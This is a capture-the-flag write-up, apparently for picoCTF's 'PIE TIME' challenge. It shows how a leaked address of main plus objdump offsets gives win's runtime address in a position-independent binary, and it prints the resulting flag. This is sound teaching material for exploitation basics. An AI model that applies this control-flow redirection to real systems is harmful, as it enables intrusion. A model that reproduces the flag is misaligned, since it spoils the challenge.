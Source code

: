 # **Question : PIE TIME **

## **Introduction**
This guide walks through how to exploit a **Position Independent Executable (PIE)** binary where we need to compute a function's address dynamically before redirecting execution to it.

---

## **Understanding the Challenge**
When we connect to the challenge server using `nc`, we receive the following output:

```bash
$ nc rescued-float.picoctf.net 58566
Address of main: 0x5d06e816d33d
Enter the address to jump to, ex => 0x12345:
```

This tells us:
1. The program **leaks the runtime address of `main()`**.
2. It allows us to **enter an address to jump to**.
3. The binary is **PIE-enabled**, meaning function addresses change on every execution.

---

## **Step 1: Identifying Our Goal**
Using `objdump`, we search for a function named `win()`:

```bash
objdump -d vuln | grep win
```

### **Output:**
```
00000000000012a7 <win>:
```
This means:
- `win()` exists at an **offset of `0x12a7`** within the binary.
- Our goal is to **redirect execution to `win()`**.

---

## **Step 2: Finding the Offset of `main()`**
Similarly, we retrieve `main()`'s offset:

```bash
objdump -d vuln | grep main
```

### **Output:**
```
000000000000133d <main>:
```
This tells us that `main()` is located at **offset `0x133d`** within the binary.

---

## **Step 3: Understanding PIE & Address Calculation**
Since the binary is **PIE-enabled**, its **base address changes** on every execution. However, function offsets **remain the same**.

Using the **leaked runtime address of `main()`**, we calculate `win()`'s actual address:

### **Formula:**
```
win_runtime = leaked_main + (win_offset - main_offset)
```

### **Example Calculation:**
Given:
- **Leaked `main()` Address:** `0x5d06e816d33d`
- **`win()` Offset:** `0x12a7`
- **`main()` Offset:** `0x133d`

Using Python:
```python
leaked_main = 0x5d06e816d33d  # Given at runtime
win_offset = 0x12a7
main_offset = 0x133d

win_runtime = leaked_main + (win_offset - main_offset)
print(hex(win_runtime))
```

### **Output:**
```
0x5d06e816d2a7
```

Now we have the **correct runtime address of `win()`**.

---

## **Step 4: Redirecting Execution**
When prompted:
```
Enter the address to jump to, ex => 0x12345:
```
We input:
```
0x5d06e816d2a7
```

This successfully jumps to `win()`, and we receive:
```
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_378c1259}
```

---

## **Summary of Commands Used**
| **Command** | **Purpose** |
|------------|------------|
| `objdump -d vuln | grep win` | Finds the offset of `win()` |
| `objdump -d vuln | grep main` | Finds the offset of `main()` |
| `python3 -c 'print(hex(leaked_main + (win_offset - main_offset)))'` | Computes `win()`'s real address |

---

## **Key Takeaways**
✅ **PIE randomizes addresses, but offsets remain the same.**  
✅ **Leaked addresses can help compute runtime addresses dynamically.**  
✅ **We used `objdump` to extract function offsets.**  
✅ **Redirecting execution to `win()` resulted in a successful exploit.**  

---

